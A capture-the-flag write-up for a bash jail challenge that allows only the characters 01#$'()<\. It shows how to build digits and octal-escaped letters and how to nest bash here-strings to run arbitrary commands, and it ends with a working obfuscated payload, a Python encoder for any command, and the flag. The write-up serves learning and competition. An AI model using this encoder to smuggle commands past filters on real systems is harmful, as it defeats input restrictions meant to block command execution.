 ```yaml
---
created: 2024-08-03T16:18
updated: 2024-08-05T19:35
solves: 16
points: 476
tags:
  - bash
---
```


## analysis
With some quick trial and error (trying all printable chars), we can obtain the valid charset this shell accepts.

```
01#$'()<\
```

That is very little indeed.

## step 1: numbers
Obviously at some point we need to obtain letters, and before that we need numbers.

A great candidate would be octal representation of characters `\000`.

How would we obtain numbers?

We can use `$((2#00010))` to convert from binary representation to decimal.

And we can obtain the 2 via `$((1<<1))`.

Putting them together we can now construct any number with `$(($((1<<1))#000101))`.

## step 2: characters

> Characters can be written as the octal form `\nnn` using numbers.

However, simply putting numbers together doesn't make them letters. 😢

The escape sequence `ls` can be written as `\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))`.
But it would not run as `ls`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717087/2024/08/3a67ead104579fdc188d6cae78bb9c98.png)

I got stuck on this for a long time (very long time), until I stumbled upon writeups for a past CTF challenge `minbashmaxfun`.

I can use `bash<<<\$\'\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))\'` to run `ls`.

And since we are in bash, that would mean `$0<<<'...'`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717507/2024/08/4173577f7e6a6375aed6d2a998c90c43.png)

## step 3: spaces

However, we still have another issue.

Using the above method we can indeed run any command, but arguments (and spaces) are interpreted as part of the command.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722716940/2024/08/793bab89e87bd1830be75bb94b7f435d.png)

I, again, got stuck for quite a while until I stumbled upon another writeup for the same challenge `minbashmaxfun`.

The solution is simple, use another layer of `bash<<<`.

The final solution would be something like this.

```bash
bash<<<bash\<\<\<\$\'cat(smthhere)flag.txt\' # space here is in escape form
bash<<<$'cat flag.txt' # space becomes a space
cat flag.txt # profit
```

## solve script

The final payload is.

```bash
$0<<<$0\<\<\<\$\'\\1$(($((1<<1))#100))$(($((1<<1))#11))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#110))$(($((1<<1))#100))\\0$(($((1<<1))#100))0\\1$(($((1<<1))#100))$(($((1<<1))#110))\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#100))$(($((1<<1))#111))\\0$(($((1<<1))#101))$(($((1<<1))#110))\\1$(($((1<<1))#110))$(($((1<<1))#100))\\1$(($((1<<1))#111))0\\1$(($((1<<1))#110))$(($((1<<1))#100))\'
```

The translator is a python script I wrote.

```python
import string


def repl_nums(c):
    if c in '01':
        return c
    return f"$(($((1<<1))#{bin(int(c))[2:]}))"


def t(c):
    # if c not in "01#$'()<\\":
    return '\\\\'+''.join([repl_nums(_) for _ in oct(ord(c))[2:].zfill(3)])
    # return c

payload = "cat flag.txt"
payload = ''.join([t(c) for c in payload])
out = f"$0<<<$0\\<\\<\\<\\$\\'{payload}\\'"
print(out)
```

```flag
TFCCTF{fb1_0p3n_up!!!!__0x410x410x410x41}
```
